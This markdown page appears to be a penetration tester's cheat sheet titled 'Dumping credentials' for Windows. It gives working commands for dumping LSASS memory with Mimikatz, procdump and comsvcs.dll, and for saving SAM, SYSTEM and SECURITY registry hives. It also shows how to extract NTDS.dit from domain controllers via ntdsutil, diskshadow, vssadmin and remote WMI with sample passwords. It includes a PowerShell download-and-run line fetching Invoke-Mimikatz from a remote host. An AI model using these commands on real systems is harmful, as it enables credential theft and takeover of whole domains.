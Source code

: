 ```yaml
---
title: "Dumping credentials"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```


## Local
Ways of dumping the lsass.exe process locally
***

#### Using in-memory Mimikatz using PowerShell (Work Out)
```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
***

#### LSASS using Task manager
Right click on a the lsass.exe process and select 'Create Dump File'. This will require administrative rights. Hashes can now be dumped using Mimikatz.
```
sekurlsa::minidump <lsass.DMP locations>
sekurlsa::logonpasswords
```
***

#### LSASS using Procdump
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
***

#### LSASS using (native) comsvcs.dll
```
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```
***

#### LSASS using the MiniDumpWriteDump API
Reference: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass
***

#### SAM using samdump2
Samdump2 is available for both Windows and Linux (Included in Kali). To decrypt the SAM you'll need the SYSTEM hive. When booted from an external medium you can extract both the SAM and SYSTEM file from 'C:\Windows\System32\Config\'. On Windows you can save it to a file using 'reg save':
```
reg save hklm\system system
reg save hklm\sam sam
```
Now you can use samdump2 to decrypt the SAM.
```
samdump2 system sam
```
***

#### LSA Secrets using Mimikatz
LSA Secrets are stored in the registry ('HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets'). You can directly extract them using Mimikatz.
```
token::elevate
lsadump::secrets
```
Or you can retrieve the SYSTEM- and SECURITY-file and dump the credentials after the fact.
```
reg save HKLM\SYSTEM system
reg save HKLM\security security
```
```
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
***

#### Cached Domain Credentials using mimikatz
```
lsadump::cache
```
***

#### Hashes directly from a domain controller using ntdsutil (lolbin)
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
The hashes can be dumped offline using secretsdump.py
```
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```
***

#### Hashes using diskshadow
Put the following commands in a .txt file.
```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset
```
And execute the following commands
```
mkdir c:\exfil
diskshadow.exe /s C:\users\Administrator\Desktop\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```
The ntds.dit will be actracted and placed in the C:\exfil folder. Execute the following commands to perform cleanup.
```
diskshadow.exe
    > delete shadows volume trophy
    > reset
```
***

#### NTDS.dit using vssadmin
Using vssadmin we can create shadow copies of drives. Using this we can access the ntds.dit in the shadow copy volume, since it is not in use there.
Creat a shadow copy volume:
```
vssadmin create shadow /for=c:
```
The volume should now be created and return an id and location of the copy. You could verify using:
```
vssadmin list shadows
```
Copy the ntds.dit to a writeable local location (path will probably differ):
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTFDS\ntds.dit C:\temp\ntds.dit
```
Save the SYSTEM key, so we can decrypt the ntds.dit file offline.
```
reg save HKLM\SYSYEM C:\temp\SYSTEM
```
Delete the shadow copy volume after you're done
```
vssadmin delete shadows /shadow="{2342352f-5234-252e-342345-2352342d2fd}"
```
We decrypt the hashes using secretsdump to crack them afterwards.
```
secretsdump -ntds ntds.dit -system SYSTEM LOCAL -outfile customer_hashes.txt
```

## Remote
***

#### Cached Domain Credentials using meterpreter
The 'hashdump' command in meterpreter will dump the local SAM account hashes.
```
hashdump
```
To dump cached domain credentials in the mscach format the 'cachedump' module can be used.
```
getsystem
use post/windows/gather/cachedump
run
```
The output will be in the 'mscache'-format.
***

#### Cached Domain Credentials using secretsdump

Obtain the SAM, SECURITY and SYSTEM hive. Either trough booting from an external medium or using reg.exe.
```
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```

After obtaining the hives the hashes can be dumped using secretsdump from impacket.
```
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
***

#### Domain controller hashes shadow copy over WMI

Creat a shadow copy of the C drive.
```powershell
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
Copy the ntds.dit, SYSTEM and SECURITY hives to C:\temp on the remote machine
```powershell
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
Mount the remote C:\temp directoy to your local machine
```
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```
Now you can run secretsdump to dump the hashes (as shown in previous examples)

#### Dumping LSASS using native commands
```Invoke-Command -ScriptBlock {C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass-comsvcs.dmp full}```
